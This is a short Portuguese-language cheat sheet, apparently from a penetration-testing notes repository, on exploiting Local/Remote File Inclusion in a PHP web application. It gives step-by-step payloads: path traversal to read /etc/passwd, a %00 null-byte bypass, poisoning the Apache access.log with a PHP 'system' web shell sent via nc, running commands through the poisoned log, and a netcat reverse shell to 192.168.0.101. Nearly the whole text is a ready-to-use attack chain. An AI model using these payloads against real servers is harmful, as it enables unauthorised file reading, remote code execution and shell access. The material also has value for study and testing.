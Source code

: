 # LFI/RFI Local/Remote File Include

Procure no site algum link que chame alguma página com o parâmetro GET:  
``rh.businesscorp.com.br/index.php?page=login``

Troque o parâmetro do GET por arquivos sensíveis do servidor:  
``rh.businesscorp.com.br/index.php?page=/../../etc/passwd``  

Caso a aplicação utilize a adição de extenção logo depois do arquivo, será necessário testar com **nullbyte**.*

``rh.businesscorp.com.br/index.php?page=/../../etc/passwd%00``  
**nullbyte = %00**

Podemos carregar o access.log do servidor, normalmente em:
**/var/log/apache2/access.log**  
``rh.businesscorp.com.br/index.php?page=/../../var/log/apache2/access.log%00``

Com isso iremos infectar o access.log com um código malicioso:
```bash
nc -v rh.businesscorp.com.br 80 < "<?php system($_GET['cmd']); ?>"
```

Agora basta informar um parâmetro para o cmd:  
``rh.businesscorp.com.br/index.php?cmd=ls -la&page=/../../var/log/apache2/access.log%00``  

``rh.businesscorp.com.br/index.php?cmd=uname -a&page=/../../var/log/apache2/access.log%00``

``rh.businesscorp.com.br/index.php?cmd=nc 192.168.0.101 443 -e /bin/bash&page=/../../var/log/apache2/access.log%00``

